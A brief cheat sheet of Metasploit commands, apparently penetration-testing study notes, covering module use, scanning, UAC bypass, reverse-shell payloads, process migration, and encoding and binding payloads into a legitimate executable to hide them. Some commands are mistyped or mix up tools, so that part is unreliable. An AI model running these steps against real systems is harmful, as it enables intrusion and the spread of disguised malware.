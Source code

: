 # Metasploit
- https://www.offensive-security.com/metasploit-unleashed/Pivoting/
- https://www.offensive-security.com/metasploit-unleashed/Portfwd/
- https://www.offensive-security.com/metasploit-unleashed/proxytunnels/

## General Commands:
```
show auxilary
search snmp
use snmp_enum
info
show options
set RHOS ip
run
```
```
setg RHOST ip (global set)
```

### Hosts:
```
db_nmap ip-range --top-ports 20 (to populate database)
```

### Search Services:
```
services -p 443 (search all machines with 443 open)
```

### Modifying exploit:
```
~/.msf4/modules/exploits/windows/misc/vulnserver.rb
```

### Post exploitation
- exploit/windows/local/bypassuac
- set payload to reverse-shell  (so that a new session will be created)
- migrate to a system privileged process

### Encode
```
msfpayload ............ | msfconsole -e x86/shikata_ga_nai -t exe -c 9 -o exe.exe
```

### Binding
```
msfpayload ............ | msfconsole -e x86/shikata_ga_nai -t exe -c 9 -x goodexe.exe -o bound.exe
```
